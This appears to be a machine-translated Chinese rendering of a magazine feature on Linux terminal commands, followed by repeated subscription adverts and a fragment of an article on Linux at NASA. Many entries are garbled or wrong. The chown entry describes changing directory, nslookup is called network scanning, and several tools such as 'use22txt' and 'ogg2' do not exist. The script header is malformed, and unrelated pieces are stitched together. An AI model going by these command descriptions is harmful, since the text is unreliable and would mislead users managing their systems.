删除给的文件——在使用这些通配符时要非常小心。如果不确定，添加 `-i` 选项以请求确认。除非添加 `-f` 和 `-r` 选项，否则你无法删除目录——请小心！

```
mkdir /dir/subdir1
```

在你的主目录中创建子目录。如果 `/dir` 不存在或 `subdir1` 已存在，则操作将失败。为了避免错误并一次性创建层次结构，请添加 `-p` 选项。

```
chown user:group file
```

`chown` 命令更改给定路径的所有权，路径可以是相对或绝对的。如果不带参数，它将更改为你的主目录。使用 `cd -` 查看当前位置，或使用 `pwd`。

```
chown user:group files
```

将给定文件的所有权更改为用户和组。如果你使用了组，则只有用户会被更改。如果你使用了冒号（:`` 但没有使用组，则默认组会被更改。通常你需要 `root` 权限来运行此命令。

```
tree
```

以树形布局显示你的主目录内容（`-` 是主的快捷方式）。这让你很容易查看文件之间的关系，但列表可能会非常长。使用 `-L` 限制树的层级。

```
chmod +x file
```

设置文件的权限，`+x` 意味着为所有用户设置，其他保持不变。你可以使用多个选项；最后一个选项适用于所有用户或 `root` 以更改其权限。

```
cp file1 file2
```

将 `file1` 复制到 `file2`；如果 `file2` 是一个目录，则将 `file1` 复制到其中。`-p` 保留时间戳和权限，否则 `file2` 将具有当前时间。如果 `file1` 是目录，请使用 `-r` 选项，或者使用 `-a` 组合 `-r` 和 `-p`。

### > 10 匹配目录

```
rsync -a dir1/ dir2/
```

同步两个目录的内容。`dir1` 中但 `dir2` 中没有（或不同）的文件将被复制。要删除 `dir2` 中的文件，请添加 `--delete`。添加 `-n` 在不执行的情况下查看将执行的操作。

`img/3eaaaaf4dd2065fe8f3d6fb19ba774d_21_0.png`

`img/3eaaaaf4dd2065fe8f3d6fb19ba774d_21_1.png`

## 网络

## 用于处理网络的命令


- `11` 你的电脑叫什么名字？使用 `hostname` 查找电脑的网络名称；`-f` 获取包括域名在内的全名；`-a` 查看你电脑的 IP 地址，并用它运行它。

- `12` 列出网络信息

```
addr show
```

`ip` 命令是 `ifconfig` 的继承者。两者都可以用于显示有关网络接口的信息，包括 IP 地址、硬件地址、状态和更多统计数据。

- `13` 检查连接

```
ping google.com
```

测试连接。

- `14` 查找 DNS

```
dig google.com
```

查询 DNS 记录。

- `15` 扫描网络

```
nslookup google.com
```

查找 IP 地址。

- `16` 检查端口

```
nmap google.com
```

扫描开放端口。

- `17` 远程登录

```
ssh user@hostname
```

通过 SSH 远程登录到主机。

- `18` 传输文件

```
scp file user@hostname:/path
```

将文件传输到远程主机。

- `19` 同步目录

```
rsync -a dir1/ dir2/
```

同步目录内容。

- `20` 运行 Web 服务器

```
python -m http.server 8000
```

在端口 `8000` 运行简单的 Web 服务器。

# 文件格式

将文件从一种格式转换为另一种格式

## 转换文档文件

### Office 文件

`LibreOffice` 可以在命令行运行无需 GUI 进行类型转换。例如：

```
libreoffice --convert-to xlsx spreadsheets
libreoffice --convert-to docx
```

### 从 PDF 文件提取图像

`pdfimages` 用于提取嵌入在 PDF 文档中的图像；`pdfimages -png somefile.pdf` 将提取所有图像并将每个图像写入独立的 `.png` 扩展名文件中。使用 `pdfinfo` 列出图像的详细信息，而不是提取它们。

### 转换页面

页面是用 `GROFF` 编写的；你可以使用 `-t` 将其转换为 `PostScript` 并通过管道交给打印机或可能已经安装的程序处理。

```
man -t someprog lpr
man -t someprog ps2ascii
```

### 转换

使用 `ImageMagick` `convert` 来执行此操作；你甚至可以从文件名判断文件类型。

```
convert photo.jpg photo.jpg
```

保持不变，速度非常快。参数的顺序很重要，因为它们很可能紧随命令行上的下一个文件，因此 `code` 必须是输入文件。

### 音频转换

`ffmpeg` 可以轻松地将 `Vorbis` 文件转换为 `MP3`。要转换当前目录下的所有文件：

### 调整图像大小

`ImageMagick` 再次登场！

```
convert photo.jpg -resize 200x200 photo
convert photo.jpg -resize 50% -quality 50 newphoto.jpg
```

```
ogg2 -bitrate 256
```

正如你预期的，这会将图像从 `JPG` 转换为 `PNG`。

### 文本文件

使用 `use22txt` 将 Windows 使用的文件转换为文本，然后使用 `use22dos` 将文件发回。

第一种方法调整图像大小以适应给定尺寸的框并将其转换为 `PNG`。第二种方法则减小 `JPEG` 图像的尺寸和质量。

### 转换为纯文本

`pdftext` 和 `html2txt` 命令从格式（如 `PDF` 或 `HTML` 文件）中提取文本。你可能需要尝试选项：对于 `PDF` 布局使用 `-layout` 选项以保持文本的可读性。

### 视频转换器

视频格式非常复杂，有时你只是更改格式以便在手机上观看。视频转换的主要程序之一是 `ffmpeg`。

### 识别媒体文件

`Mplayer` 自带 `identify` 命令，可以获取有关文件内容的所有有用信息，如秒数和分辨率，以及编码器和比特率。

```
ffmpeg -i video.mp4 -codec copy video.mp4
```

这在保持内容的同时转换了文件。

> 查看图像

如果你在终端中，可以使用 `ImageMagick` 命令的 `display` 命令。

# 终端大师

# 进程控制

查看和管理运行中的程序和进程

> 快速提示

> 杀死程序

你可以从终端使用 `xkill` 杀死 GUI 程序。运行该命令并点击你想要杀掉的窗口。

- `41` 列出运行中的进程

```
ps aux
```

这会列出你计算机上运行的所有进程——你可以根据数字对它们进行排序。此排序命令需要通过到解析器或 `grep` 以找到你正在寻找的内容。请谨慎使用，否则 `killall` 会终止所有运行的脚本。

- `42` 告诉程序重新加载配置

某些程序在文件更改时会通知你；而另一些程序只在启动时注意。在后一种情况下，你可以使用 `killall` 发送 `HUP` 信号，告诉它们重新加载。

- `43` 显示资源

运行 `top` 以查看按 `CPU` 使用率排序的进程列表，以及处理器和内存的整体统计。进程按 `CPU` 使用率排序；按键可以排序。

- `44` 按名称杀死进程

`killall` 的工作原理类似于接受程序名。这意味着它将杀死所有运行的同名进程。

- `45` 谁启动了什么？

`ps` 的输出显示了许多运行中的进程。要查看它们是如何启动的，运行 `pstree`，它以树形列出进程，这样你可以看到每个运行程序的父进程。


- `49` 查找程序的 `PID`

每个进程都有一个启动时分配的唯一 `ID`。你可以使用 `pgrep` 找到运行进程的 `PID`。然而，如果你有多个实例，它会返回 `PID` 列表，你也可以使用多个参数来匹配完整的命令行。

- `50` `/proc` 中的符号链接

`/proc` 目录包含了丰富的系统信息，包括每个按 `PID` 分的目录。这里的某些信息很深奥，但也有用的东西；`/proc/PID` 包含完整的命令行；`/proc/children` 列出了它启动的进程。

# 包管理

在你的计算机上安装和删除软件

- `51` 更新包列表

```
apt-get update
```

使用 `APT` 包管理器时，应该在执行其他操作之前运行 `update` 命令，它将可用包列表与服务器上的可用包进行同步。

- `52` 升级包

```
apt-get upgrade
```

一个看起来相似但目的完全不同的命令，它将所有已安装的包升级到最新版本。它会告诉你将做什么并请求确认，因此在继续之前请检查列表是否有明显的遗漏。

- `53` 安装新包

```
apt-get install package
```

这会安装你提供的包。此外，它会检查软件是否需要其他包（依赖项）以及你是否想要安装。替换为 `remove` 来删除包。在某些 `apt-get` 命令中，你可以使用 `-s` 查看在不实际安装任何东西的情况下将做什么。

- `54` `sudo` 是你的朋友


安装和删除软件需要权限。在过去我们使用 `root`，这要求你知道 `root` 密码，使他们能够在系统上执行任何操作。现在的做法是使用 `sudo`，它在 `root` 权限下运行命令，但仅在授权的情况下如此。`sudo` 不像 `root`——它可以配置为允许用户运行特定命令或带有特定参数的命令。要运行命令，在其前面加上 `sudo`：

- `55` `RPM` 更新

```
rpm -U packagename
```

`RPM` 是另一个包管理系统，被 `Fedora` 和 `openSUSE` 使用。`-U` 将包更新到最新版本，或者如果系统中尚未安装则进行安装。

- `56` 包列表表

```
dpkg --selections
```

一个用于管理 `Debian` 包的低级工具。`dpkg` 保留了所有已安装包的表格。你可以将其保存到文件或将其管道到命令以保存副本，这在通过 `SSH` 管理远程计算机时可能非常有用。

- `57` 在 `RPM` 上安装包

```
yum/dnf update
```

虽然 `RPM` 仍然流行，但流行的命令是如此 `yum` 和 `dnf` 是 `Fedora` 和 `Red Hat` 的替代品，因此安装包的命令是 `yum install package`。

- `58` 更新包

如果此命令后跟包名或更多包，这些包将更新到最新版本。如果没有指定名称，系统安装的每个包如果有可用更新，都将被更新。

> 快速提示

> USB 启动

`GRUB` 允许从本地磁盘上的快速 `USB` 附加存储启动 `Linux` 发行版。这在你位于本地磁盘且空间不足时非常有用。

- `59` 无需依赖项

在删除包后，依赖项可能会残留。`apt-get autoremove` 会在 `Debian` 系统上清理这些项；`yum/dnf` 在 `RPM` 上也做同样的事情。

- `60` 不需要重启


当发布新版本的 Debian 时，无需下载 ISO 并重新安装，`apt-get dist-upgrade` 几乎可以产生相同的效果，且无需停机。

# 功能级终端

## 与 shell 交互

让你的 shell 操作更轻松的实用技巧

### 61 别名 (Aliases)

别名为你经常使用的命令创建快捷方式，或添加默认选项。在某些情况下，执行 `alias rm='rm -i '` 可以在删除文件时询问“你确定吗？”。你可以通过运行 `alias` 来查看别名的完整列表。如果创建的别名与命令同名，你可以通过在命令名前面加上 `\` 来使用原始命令，例如 `\rm`。

### 62 TAB 自动补全

开始输入命令并按 Tab 键；如果有多个选项，你的 shell 将提供备选方案。例如，当你输入：`ls /somepath/tovery/longfilename` 时，配合：

```
ls | /someAltAtinTab
```

### 63 运行多个命令

使用分号在 shell 中运行多个命令。

```
command1; sleep 5; command 2
```

### 64 离线你的 shell

使用 `screen` 启动一个新的 shell，你可以从中分离并通过 SSH 从另一台电脑重新连接。`screen` 对于运行任务非常有用，特别是在远程操作时。

### 66 当另一个命令成功时运行一个命令

`&&` 运算符会检查第一个命令的返回码，如果它执行成功，则继续执行下一个命令。

```
command1 && command2
```

相反的使用使用 `||`；只有当第一个命令失败时，才会运行第二个命令。

### 67 记录你的 shell 会话

运行脚本，你输入的所有内容及其输出都将被记录到一个文件中。完成后按 Ctrl+D，文件 `typescript` 将包含你所做一切的副本。

### 68 重定向

通常情况下从键盘读取输入并输出到 shell。你可以通过重定向来更改这一点。`<somefile` 从文件读取，`>file` 输出到文件；`>>file` 追加到文件末尾。`>&2` 重定向标准错误，而 `2>&1` 将两者都重定向到同一个地。

### 69 学习脚本

这些命令本身非常强大，但当你一次在 shell 中运行它们（甚至同时运行多个命令）时，它们就会变得非常灵活。简单的脚本很容易编写（你可以通过阅读《Linux on bash》来深入学习制作脚本）。最基本的是，它们只是一个要运行的命令列表，每行一个。在顶部放置行 `#!/bash` 使其识别为 shell 脚本。

### 70 配合 sudo 重定向

你是否尝试过使用 `sudo echo something >file` 写入文件结果结果因写入权限问题失败了？那是因为重定向是以你的用户身份（而非 sudo）运行的。解决方案是使用 `tee`，它可以同时输出到终端和文件，例如：

```
echo something | tee -a somefile
```

### 65 历史记录 (History)

shell 维护着你运行过的命令列表，这非常有用。按方向键向上滚动。按 Ctrl+R 搜索你之前使用过的命令，shell 将为你显示最近的匹配项。再次按查看上一个，依此类推。输入 `!!` 将运行上一个命令，所以如果你忘记使用权限，请运行 `sudo !!`

```
@zphouch ~/.history 01%
10 systemctl status sshd
11 systemctl status dev_sdb1
12 list-units
13 list-unit-files
14 journalctl -f
15 journalctl -f
16 history
17 tree
18 smartctl -H /dev/sda
sudo smartctl -H /dev/sda
d25 df
df uname -a
@zphouch ~/.history
```

## 文件系统

挂载内部和外部文件系统

### 71 挂载文件系统的命令是：

- 挂载文件系统

- `sudo /dev/sdX /mount/point` 其中 `sdX` 是设备名。挂载点可以是任何地方。文件系统通常会自动检测，或者你可以使用 `-t` 指定

### 72 使用 dd 复制完整的文件系统

`dd` 将磁盘分区按位复制到指定的文件。它的大小与原始分区一样，或者你可能想通过管道压缩输出：

```
dd if=/dev/sdX of=/home/user/file.img
```

### 73 另一种挂载方法

如果设备列在 `/etc/fstab` 中，你只需要传递设备或挂载点。`fstab` 包含了你的选项，文件系统可以作为普通用户挂载。

### 74 挂载外部驱动器

如果设备列在 `/etc/fstab` 中，你可以像挂载它，桌面自动挂载器会处理这一点，因为它挂载在 `/dev/sdb1` 并由普通用户挂载。

### 75 剩余空间

使用 `df` 列出所有文件系统的已用和可用空间。通常以块报告空间，但 `-h` 提供人类可读的值。如果空间足够，使用 `-i` 检查

### 76 将闪存数据写入磁盘

Linux 会缓存数据，立即写入更快并减少闪存驱动器的损坏。如果你想确保所有数据提交到磁盘，在复制文件到闪存后运行 `sync`。

### 77 查看已挂载的内容

带有选项的 `mount` 命令提供了使用命令行参数格式化的易读输出，是脚本中获取内容的更好方法。

### 78 挂载网络驱动器

这与挂载本地设备类似，设备被指定为 NFS 服务器或 Samba 共享的主机/路径。类型由 `-t` 指定。

### 79 修复损坏的文件系统

如果文件系统损坏，它不能处于挂载状态，这意味着你可能需要从光盘启动运行它。内容很重要且没有备份（为什么？），先用 `dd` 复制一份。

### 80 为你的文件系统添加标签

当自动挂载器挂载 USB 闪存时，存在则使用文件系统的标签作为挂载点。否则使用 UUID。你可以为现有文件系统添加标签，为每个类型设置：

```
label /dev/sd1
```

在不提供标签的情况下运行其中任一个，它将告诉你。

| /sys/fs/cgroup/cpuuset | cgroup | cgroup |
|---|---|---|
| /sys/fs/cgroup/cpuacct | cgroup | cgroup |
| /sys/firmware/efi/efivars | cgroup | cgroup |
| /dev/nfs | devfs | devfs |
| /dev/loop | varfs | varfs |
| /sys/fs/cgroup/ids_misc | system-1 | autofs |
| /proc/nfs | procfs | procfs |
| /dev/tmpfs | tmpfs | tmpfs |
| /dev/pts | devpts | devpts |
| /dev/devpoint | depoint | depoint |
| /dev/hupages | hugst | hugst |
| /run/user/1000 | tmpfs | tmpfs |
| /tmp | tmpfs | tmpfs |
| /dev/nfs_nblk | btrfs | btrfs |

# 精通终端

## 系统信息

使用 `uname` 报告内核、OS、CPU 类型并打印。带有 `-a` 参数的命令报告所有信息

### 84 列出所有硬件

`lshw` 命令列出你所有的硬件。它很长，所以你可以将其传递给分页器如 `less`。你还可以使用 `-html` 标志将其输出为 HTML，用于粘贴到网页中（甚至是一个奇特的 HTML 电子邮件中）。

### 85 查找文件

`find` 命令本身就非常强大，搜索文件系统不再如此困难。这样搜索：`find . -iname "embarrassing*"`

### 81 测试你的驱动器健康

驱动器有一个名为 SMART 的监控系统（你可能需要在主板 BIOS 中启用它）。使用 `smartctl` 命令访问它。

### 86 更快的 find

搜索文件系统不再是瞬时的。定位文件数据库。输出非常简单，在脚本中特别有用。理想情况下配合 root 使用。

```
$ smartctl -i /dev/sda
smartctl -H /dev/sda
smartctl -t /dev/sda
```

第一个命令打印关于驱动器的信息，第二个命令报告其健康状况，第三个运行测试。测试在后台运行，你可以继续使用驱动器。

### 87 检查剩余空间

`df` 命令显示目录及其内部使用的空间，但提供了更友好的视图。不带参数时，它显示每个磁盘的剩余空间。使用 `-x` 报告特定的文件系统

### 快速技巧

### 排序

当命令运行以报告某些内容（如 `df`），将输出传递给 `sort -n` 以按数字顺序排序。添加 `-k` 标志将显示每个驱动器的内核驱动。

### 88 检查剩余内存


`free` 命令用于此功能不可思议。你可以添加 `-h` 选项来查看人类可读的值——而不是字节、兆字节和千字节。它已经在空内存上运行了一段时间，因为 Linux 使用空内存进行缓存；`free` 显示了内存，以及最后一列中实际用的内存

### 89 简要信息

使用 `uname` 报告一个或多个内核、OS、CPU 类型并打印。带有 `-a` 的命令报告特定组件

### 90 极其详细的信息

安装并运行 `inxi` 来查看系统的详细信息。输出很短，但你可以通过 `-v` 后跟 1 到 7 的数字来增加详细程度，或者你可以告诉它显示特定子系统的信息。

# 更多内容..

## 在 shell 中使用的实用技巧和命令

### 通配符

使用通配符匹配多个文件。使用以下命令将它们复制到当前目录：

```bash
cp *.jpg dest/
```

- `*` 匹配除 `/` 之外的任意字符序列
- `?` 匹配单个字符

### 处理归档文件

如果文件包在 `.tar` 之后有扩展名，它们是被压缩过的，`tar` 命令可以处理。

```bash
tar tvf file.tar.bz2
tar xf file.tar.xz
```

第一个命令列出归档包的内容：

第二个命令将其解压到当前目录。

### Windows ZIP 文件

使用 `unzip -l some.zip` 查看 ZIP 压缩文件的内容。使用 `-d` 参数指定目录。

### 搜索

在文件中搜索匹配模式的行。若要查找文件中的错误，可以使用：

```bash
grep -i err log
```

`grep` 默认对大小写敏感；使用 `-i` 可以更改此设置。

### 查看文件的开头或结尾

`head` 和 `tail` 命令显示文件的第一行和最后一行。可以使用 `-n` 选项查看指定行数的内容。

```bash
tail -n 1 somefile
```

### 什么是文件？

Linux 不使用文件扩展名来区分文件类型，而是查看内容。`file` 命令会告诉你文件包含的数据类型，通常还会提供更多信息——例如图像的尺寸。

```bash
file file2..
```

### 内容计数

报告每个文件（或来自标准输入）的行数、单词和字符数，并给出所有文件的总数。如果你对其中一个值感兴趣，可以使用 `-c`、`-w` 或 `-l`。

### 读取标准输入

如果没有文件名，许多命令将通过管道而非文件接受标准输入，这意味着从标准输入（`stdin`）读取。后者的优点是程序可以同时从标准输入和一个文件中读取数据。

### 修改文件

流编辑器（Stream Editor）用于编辑文本流。它非常强大，也可以用于搜索和替换等简单任务。它可以作用于文件、标准输入上的文本或文件名。要替换 `bar` 中所有的 `foo` 出现处，你可以使用：

```bash
sed -i s/foo/bar/ somefile
```

`-i` 选项用修改后的版本替换文件，而不是简单地输出数据。


> 快速提示
>
> 当使用 `sed` 的 `-i` 选项直接修改文件时，使用 `.bak` 创建原始文件的备份。


```text
debug report.png 'file' .txt
001: PGM data 1779 1128, 8-bit R,RGB, non-interacted
002: PGM data 1779 1128, 8-bit R,RGB, non-interacted
003: PGM data 1779 1128, 8-bit R,RGB, non-interacted
004: PGM data 1779 1128, 8-bit R,RGB, non-interacted
005: PGM data 1779 1128, 8-bit R,RGB, non-interacted
006: PGM data 1779 1128, 8-bit R,RGB, non-interacted
007: PGM data 1779 1128, 8-bit R,RGB, non-interacted
008: PGM data 1779 1128, 8-bit R,RGB, non-interacted
009: PGM data 1779 1128, 8-bit R,RGB, non-interacted
010: PGM data 1779 1128, 8-bit R,RGB, non-interacted
011: PGM data 1779 1128, 8-bit R,RGB, non-interacted
012: PGM data 1779 1128, 8-bit R,RGB, non-interacted
013: PGM data 1779 1128, 8-bit R,RGB, non-interacted
014: PGM data 1779 1128, 8-bit R,RGB, non-interacted
015: PGM data 1779 1128, 8-bit R,RGB, non-interacted
016: PGM data 1779 1128, 8-bit R,RGB, non-interacted
017: PGM data 1779 1128, 8-bit R,RGB, non-interacted
018: PGM data 1779 1128, 8-bit R,RGB, non-interacted
019: PGM data 1779 1128, 8-bit R,RGB, non-interacted
020: PGM data 1779 1128, 8-bit R,RGB, non-interacted
021: PGM data 1779 1128, 8-bit R,RGB, non-interacted
022: PGM data 1779 1128, 8-bit R,RGB, non-interacted
023: PGM data 1779 1128, 8-bit R,RGB, non-interacted
024: PGM data 1779 1128, 8-bit R,RGB, non-interacted
025: PGM data 1779 1128, 8-bit R,RGB, non-interacted
026: PGM data 1779 1128, 8-bit R,RGB, non-interacted
027: PGM data 1779 1128, 8-bit R,RGB, non-interacted
028: PGM data 1779 1128, 8-bit R,RGB, non-interacted
029: PGM data 1779 1128, 8-bit R,RGB, non-interacted
030: PGM data 1779 1128, 8-bit R,RGB, non-interacted
031: PGM data 1779 1128, 8-bit R,RGB, non-interacted
032: PGM data 1779 1128, 8-bit R,RGB, non-interacted
033: PGM data 1779 1128, 8-bit R,RGB, non-interacted
034: PGM data 1779 1128, 8-bit R,RGB, non-interacted
035: PGM data 1779 1128, 8-bit R,RGB, non-interacted
036: PGM data 1779 1128, 8-bit R,RGB, non-interacted
037: PGM data 1779 1128, 8-bit R,RGB, non-interacted
038: PGM data 1779 1128, 8-bit R,RGB, non-interacted
039: PGM data 1779 1128, 8-bit R,RGB, non-interacted
040: PGM data 1779 1128, 8-bit R,RGB, non-interacted
041: PGM data 1779 1128, 8-bit R,RGB, non-interacted
042: PGM data 1779 1128, 8-bit R,RGB, non-interacted
043: PGM data 1779 1128, 8-bit R,RGB, non-interacted
044: PGM data 1779 1128, 8-bit R,RGB, non-interacted
045: PGM data 1779 1128, 8-bit R,RGB, non-interacted
046: PGM data 1779 1128, 8-bit R,RGB, non-interacted
047: PGM data 1779 1128, 8-bit R,RGB, non-interacted
048: PGM data 1779 1128, 8-bit R,RGB, non-interacted
049: PGM data 1779 1128, 8-bit R,RGB, non-interacted
050: PGM data 1779 1128, 8-bit R,RGB, non-interacted
051: PGM data 1779 1128, 8-bit R,RGB, non-interacted
052: PGM data 1779 1128, 8-bit R,RGB, non-interacted
053: PGM data 1779 1128, 8-bit R,RGB, non-interacted
054: PGM data 1779 1128, 8-bit R,RGB, non-interacted
055: PGM data 1779 1128, 8-bit R,RGB, non-interacted
056: PGM data 1779 1128, 8-bit R,RGB, non-interacted
057: PGM data 1779 1128, 8-bit R,RGB, non-interacted
058: PGM data 1779 1128, 8-bit R,RGB, non-interacted
059: PGM data 1779 1128, 8-bit R,RGB, non-interacted
060: PGM data 1779 1128, 8-bit R,RGB, non-interacted
061: PGM data 1779 1128, 8-bit R,RGB, non-interacted
062: PGM data 1779 1128, 8-bit R,RGB, non-interacted
063: PGM data 1779 1128, 8-bit R,RGB, non-interacted
064: PGM data 1779 1128, 8-bit R,RGB, non-interacted
065: PGM data 1779 1128, 8-bit R,RGB, non-interacted
066: PGM data 1779 1128, 8-bit R,RGB, non-interacted
067: PGM data 1779 1128, 8-bit R,RGB, non-interacted
068: PGM data 1779 1128, 8-bit R,RGB, non-interacted
069: PGM data 1779 1128, 8-bit R,RGB, non-interacted
070: PGM data 1779 1128, 8-bit R,RGB, non-interacted
071: PGM data 1779 1128, 8-bit R,RGB, non-interacted
072: PGM data 1779 1128, 8-bit R,RGB, non-interacted
073: PGM data 1779 1128, 8-bit R,RGB, non-interacted
074: PGM data 1779 1128, 8-bit R,RGB, non-interacted
075: PGM data 1779 1128, 8-bit R,RGB, non-interacted
076: PGM data 1779 1128, 8-bit R,RGB, non-interacted
077: PGM data 1779 1128, 8-bit R,RGB, non-interacted
078: PGM data 1779 1128, 8-bit R,RGB, non-interacted
079: PGM data 1779 1128, 8-bit R,RGB, non-interacted
080: PGM data 1779 1128, 8-bit R,RGB, non-interacted
081: PGM data 1779 1128, 8-bit R,RGB, non-interacted
082: PGM data 1779 1128, 8-bit R,RGB, non-interacted
083: PGM data 1779 1128, 8-bit R,RGB, non-interacted
084: PGM data 1779 1128, 8-bit R,RGB, non-interacted
085: PGM data 1779 1128, 8-bit R,RGB, non-interacted
086: PGM data 1779 1128, 8-bit R,RGB, non-interacted
087: PGM data 1779 1128, 8-bit R,RGB, non-interacted
088: PGM data 1779 1128, 8-bit R,RGB, non-interacted
089: PGM data 1779 1128, 8-bit R,RGB, non-interacted
090: PGM data 1779 1128, 8-bit R,RGB, non-interacted
091: PGM data 1779 1128, 8-bit R,RGB, non-interacted
092: PGM data 1779 1128, 8-bit R,RGB, non-interacted
093: PGM data 1779 1128, 8-bit R,RGB, non-interacted
094: PGM data 1779 1128, 8-bit R,RGB, non-interacted
095: PGM data 1779 1128, 8-bit R,RGB, non-interacted
096: PGM data 1779 1128, 8-bit R,RGB, non-interacted
097: PGM data 1779 1128, 8-bit R,RGB, non-interacted
098: PGM data 1779 1128, 8-bit R,RGB, non-interacted
099: PGM data 1779 1128, 8-bit R,RGB, non-interacted
100: ASCII text with very long lines
101: ASCII text with very long lines
102: ASCII text with very long lines
103: ASCII text with very long lines
104: ASCII text with very long lines
105: ASCII text with very long lines
106: ASCII text with very long lines
107: ASCII text with very long lines
108: ASCII text with very long lines
109: ASCII text with very long lines
110: ASCII text with very long lines
```


# 本圣诞节订阅可享高达 40% 的优惠

免费赠送 DVD！4.7GB 发行版与工具包


## LinuxUser

面向 GNU 世代与开发者的必备杂志

> 100 种方法让你

### 精通终端

在 24 小时内成为命令行大师

### 仅需 £13.70 起

**采访**

`ZeroPhone`：使用 `Pi Zero` 构建 50 美元手机的英雄

**热门项目**

- 制作一台钢琴
- `Plink` 及其与 `Minecraft` 建议

**专家指南**

顶尖渗透测试技术

学习如何发现任何专业人士的弱点

## 49 份专家指南

**内容页码**

- `Shell` 脚本编写 | 学习 `Java`
- 构建 `Arduino` `Web` 服务器

**第 04 期**

爱好者的最爱：重大更新

- `Python IDE`：为你的下一个项目获取完美环境

**内含精彩内容**

- 学习 `Docker` & `Kubernetes`
- 推荐的 `GPU` 工具包

每 3 个月 £13.70（每年 €79/100）

### 直接购买，最划算

### 从大量标题中选择

### 价格包含运

### 订购热线：0344 848 2852

电话订购请提供代码 `XMAS17`

热线开放时间：周一至周五上午 8 点至晚上 7 点，周六上午 10 点至下午 2 点（`GMT`）

### 优惠于 2017 年 12 月 31 日结束

**你可能还喜欢...**


### 适合每个人的完美礼物

查看完整范围并在线订单 `myfavoritemagazines.co.uk/xmas17`

# 让 Linux 进入太空

## 太空中的 Linux

正如 `Mike Bedford` 报道的，`Linux` 是 `NASA` 许多太空探索的关键，但自矛盾的是，它的影响力并非无处不在。

`NASA` 在今年早些时候曾登上新闻，其位于木星轨的太空探测器“朱诺号”（`Juno`）距离这颗巨行星的云顶仅 900 公里。特别为令人印象深刻的是大红斑的详细图像，那是一场直径是地球 1.3 倍的风暴，可能已经持续了超过 350 年。

与此同时，在 250 公外，火星探测器庆祝了登陆红行星表面的一周年。虽然冰冰没有 2012 年那么多，但它在未来许多年内继续为科学家揭引人注目的照片和数据。

设计其他航天器涉及复杂的工作、任务规划和运行，以及所需的图像和数据需要某些高性能计算机，特别是对于科学和工程应用，你完全可以预期 `NASA` 首先且是一个 `Linux` 用户。作为一种操作系统，可以说 `Linux` 确保了美国美国航天机构的通用支持。在这里我们查看 `Linux` 是如何被使用的，更重要的是它在世界上最快计算机 500 强列表中的应用。由于它在超级计算领域中占据主导地位，这些设施完全依赖 `Linux`。高性能计算用户引用的益处包括 `Linux` 的模块化特性、可扩展性、社区支持和低成本。

## 高级超级计算

作为 `NASA` 所有部门的设施，`NASA` 的超级计算设施涉及了一系列令人惊叹的不同应用。近年来，它变得越来越受欢迎，特别是对于太阳系之外的任务——特别是对于那些在我们宜居带内可行、可能承载生命的任务。这不仅仅是为了已探测到的行星，考虑到银系中最不可想象的恒星；显然，这完全关乎黑客技术，一项只有最快的计算机才能应对的工作。

由于 `NASA` 可能以其独特的太空探索而闻名，埃姆斯研究中心（`Ames Research Center`）计算设施的使用是在航天器设计期间。事实上，所有最近的任务在建造之前都经过了那里。`NASA` 目前的一个高关注项目是 `NASA` 高级超级计算部门 (`NAS`)，它拥有四台超级计算机。第一名是 `Pleiades`（昴星团），它以昴星团中的一颗恒星命名，执行千万亿级计算（以核心为单位，每秒执行万亿次浮点运算），并拥有空间发射系统（`SLS`）及相关猎户座（`Orion`）开发的第 15 位荣誉。

位于埃姆斯研究中心的 `NASA` 高级超级计算部门 (`NAS`) 拥有四台超级计算机。第一名是 `Pleiades`。

在固体燃料助推器分离期间模拟 `SLS` 火箭的空气动力力，`Pleiades` 超级计算机被要求分析航天器部分周围的气流。


# 太空冷知识

## 采访

### 使用 `Pi Zero` 构建 50 美元手机的英雄

## 热门项目

- 制作一台钢琴
- `Plink` 及其与 `Minecraft` 建议

## 专家指南

顶尖渗透测试技术

学习如何发现任何专业人士的弱点

# 49 份专家指南

## 内容页码

- Shell 脚本编写 | 学习 Java
- 构建 `Arduino` Web 服务器

第 04 期

### 爱好者的最爱：重大更新

- Python IDE：为你的下一个项目获取完美环境

### 内含精彩内容

- 学习 `Docker` & `Kubernetes`
- 推荐的 GPU 工具包

每 3 个月 £13.70（每年 €79/100）

# 直接购买，最划算

# 从大量标题中选择

# 价格包含运费

# 订购热线：`0344 848 2852`

电话订购请提供代码 `XMAS17`

热线开放时间：周一至周五上午 8 点至晚上 7 点，周六上午 10 点至下午 2 点（GMT）

# 优惠于 2017 年 12 月 31 日结束

## 你可能还喜欢...

# `LINUX` TRIA Hardware

`NASA` is committed to a prototype for possible use on board spacecraft that uses hardened processor and both `Linux` and `Linux` in parallel.

As well routine housekeeping, laptops on board the ISS are one of the main tasks for `NASA`. `Linux` handles thousands of experiments that have been carried out on board the ISS, mostly falling into the categories of biology and bioengineering, Earth and space science.

### Curiosity rover, for the case

If `NASA` wants an operating system for the Mars Curiosity Rover, it would need to use the same operating system that proved itself on the earlier Spirit and Opportunity rovers.


在降落在红行星之前，它花费了 24 亿美元和 8 年的时间。高昂的价格并非绝例。前往土星及其卫星提卫的卡西尼-惠惠斯号任务花费了 32 亿美元，而国际空间站的造造成本高达 1600 亿美元。因此，可以理解为什么人们尽可能倾向于使用经过反复测试的解决方案。在几百英里之外对航天器进行升级并非易事。正如一位评论员所说，升级操作系统就像在高速公路上以每小时 70 英里的速度行驶时更换汽车轮胎。

但虽然这种“稳妥可靠（bolts and braces）”的哲学可能很快很快就会被 `NASA` 取代，并且这将影响未来的太空探测器，但同样的问题也适用于在地球上或此处与之交互的软件。好奇号火星器在火星表面运行时可能会遇到一场“硬币雨”。在加利福尼亚州帕塞迪纳的 `NASA` 喷气实验室，`Linux` 处于领先地位。这里的成本投入在于漫游器可视化系统，该系统为操作人员有关火星地形和好奇号状态的信息。它可以轻松组装命令并通过仿真运行它们。因此，到目前为止，`Linux` 在 `NASA` 地球上的计算机上运行得很好，它的主要优势在于被应用于国际空间站的低轨道上。你可能会认为，当猎户座计划（Orion programme）进入云霄时，这一切都可能发生变化。

# 快速指南

## 旅行者号体验

两艘旅行者号航天器共同访问了所有外行星——木星、土星、天王星和海王星——以及许多卫星。它们现在都正进入星际空间；旅行者号在 2012 年成为第一个离开太阳系的人造物体，现在距离地球 130 亿英里。而且，如果它们与外星生命接触，每艘航天器都携带了无数幅描绘地球生命多样性的图像。

尽管旅行者号是 `NASA` 最成功的计划之一，但旅行者号航天器并没有运行 `Linux`。显而易见：当旅行者号航天器在太空中运行 40 年时，`Linux` 只有 25 年历史。

自 2013 年以来，`Windows` 被取代，国际空间站上的数十台笔记本电脑运行在 `Linux` 上。

## `Linux` 小常识

### 微型卫星

